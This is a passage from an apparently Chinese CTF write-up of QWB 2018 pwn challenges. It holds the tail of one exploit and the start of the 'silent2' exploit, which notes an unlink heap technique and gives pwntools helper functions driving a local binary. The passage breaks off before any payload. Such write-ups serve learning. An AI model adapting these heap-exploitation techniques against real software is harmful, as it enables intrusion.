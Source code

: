 ```
sleep(0.2)

s.interactive()
```


## 0x002 silent2(unlink)

跟silent一样，只是限制不能malloc fastbin，可以利用unlink
![](/assets/img/writeup/2018-04-01-qwb-2018-pwn-writeup/0x002-001.png)

```
#!/usr/bin/env python2
## -*- coding: utf-8 -*- #
from pwn import *
context.arch = 'amd64'
context.log_level='debug'

s = process("./silent2")
elf = ELF("./silent2")

def add(l,con):
	sleep(0.2)
	s.sendline("1")
	sleep(0.2)
	s.sendline(str(l))
	sleep(0.2)
	s.send(con)

def delete(idx):
	sleep(0.2)
	s.sendline("2")
	sleep(0.2)
	s.sendline(str(idx))

def edit(idx,con):
	sleep(0.2)
	s.sendline("3")
	sleep(0.2)
	s.sendline(str(idx))
	sleep(0.2)
	s.send(con)
```